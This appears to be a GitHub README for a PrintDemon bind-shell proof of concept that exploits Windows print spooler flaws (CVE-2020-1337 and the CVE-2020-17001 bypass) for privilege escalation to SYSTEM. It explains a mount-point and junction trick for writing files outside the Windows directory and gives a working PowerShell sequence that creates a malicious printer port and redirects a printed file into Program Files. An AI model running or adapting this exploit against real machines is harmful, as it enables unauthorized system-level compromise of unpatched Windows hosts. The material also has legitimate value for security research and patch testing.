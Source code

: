 # PrintDemon
This is an bind shell PoC using [PrintDemon](https://github.com/ionescu007/PrintDemon). This script is using the latest bypass for CVE-2020-1337, which is [CVE-2020-17001](https://bugs.chromium.org/p/project-zero/issues/detail?id=2075) for privilege escalation. The vulnerability allows an unprivileged user to gain system-level privileges and is based on @ionescu007 PoC.

Platform: Windows 10 1909, doesn’t work directly on 2004.

One way of exploiting this on Windows 10 2004 is to understand that FileNormalizedNameInformation will fail if the new path after the mount point is not under the root directory of the server. For example the admin$ share points to c:\windows. If you set the mount point to write to c:\Program Files then the normalization process will fail and the original string returned. This allows you to write to anywhere outside the windows directory by placing a mount point somewhere like system32\tasks. For example the following script will write the DLL to the root of Program Files.
```
mkdir "C:\windows\system32\tasks\test"

Add-PrinterDriver -Name "Generic / Text Only" 

Add-PrinterPort -Name "\\localhost\admin$\system32\tasks\test\test.dll" 

Add-Printer -Name "PrinterExploit" -DriverName "Generic / Text Only" -PortName "\\localhost\admin$\system32\tasks\test\test.dll"

rmdir "C:\windows\system32\tasks\test"

New-Item -ItemType Junction -Path "C:\windows\system32\tasks\test" -Value "C:\Program Files"

"TESTTEST" | Out-Printer -Name "PrinterExploit"

```

__Note__: This is a proof of concept. We have encountered some issues with printing to C:\Windows\System32\Ualapi.dll on some machines. We have not yet isolated what is causing this.

## Code Borrowed from
https://github.com/ionescu007/PrintDemon

https://github.com/BC-SECURITY/Invoke-PrintDemon

https://bugs.chromium.org/p/project-zero/issues/detail?id=2075

https://stackoverflow.com/questions/4442122/send-raw-zpl-to-zebra-printer-via-usb

https://stackoverflow.com/questions/29759854/how-to-connect-to-tcp-socket-with-powershell-to-send-and-receive-data
